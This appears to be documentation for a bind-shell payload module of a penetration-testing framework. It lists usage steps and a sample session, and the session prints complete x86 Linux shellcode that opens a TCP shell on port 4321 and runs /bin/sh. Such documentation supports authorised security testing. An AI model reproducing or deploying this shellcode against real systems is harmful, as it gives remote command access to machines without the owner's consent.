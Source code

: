 ## Description

Module generates payload that creates interactive tcp bind shell for X86 architecture.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/x86/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates x86 bind shell tcp payload

## Scenarios

```
rsf > use payloads/x86/bind_tcp
rsf (X86 Bind TCP) > set rport 4321
[+] rport => 4321
rsf (X86 Bind TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
    "\x5b\x5e\x52\x68\x02\x00\x10\xe1\x6a\x10\x51\x50\x89\xe1\x6a"
    "\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
    "\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
    "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
    "\x0b\xcd\x80"
)
```
